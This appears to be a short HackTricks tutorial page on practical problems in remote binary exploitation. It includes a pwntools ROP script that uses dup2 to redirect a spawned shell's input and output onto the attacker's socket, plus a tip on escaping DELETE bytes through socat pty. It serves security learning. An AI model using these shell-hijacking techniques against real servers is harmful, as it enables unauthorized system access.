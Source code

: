 # Common Exploiting Problems

{{#include ../../banners/hacktricks-training.md}}

## FDs in Remote Exploitation

When sending an exploit to a remote server that calls **`system('/bin/sh')`** for example, this will be executed in the server process ofc, and `/bin/sh` will expect input from stdin (FD: `0`) and will print the output in stdout and stderr (FDs `1` and `2`). So the attacker won't be able to interact with the shell.

A way to fix this is to suppose that when the server started it created the **FD number `3`** (for listening) and that then, your connection is going to be in the **FD number `4`**. Therefore, it's possible to use the syscall **`dup2`** to duplicate the stdin (FD 0) and the stdout (FD 1) in the FD 4 (the one of the connection of the attacker) so it'll make feasible to contact the shell once it's executed.

[**Exploit example from here**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Socat & pty

Note that socat already transfers `stdin` and `stdout` to the socket. However, the `pty` mode **include DELETE characters**. So, if you send a `\x7f` ( `DELETE` -)it will **delete the previous character** of your exploit.

In order to bypass this the **escape character `\x16` must be prepended to any `\x7f` sent.**

**Here you can** [**find an example of this behaviour**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{{#include ../../banners/hacktricks-training.md}}

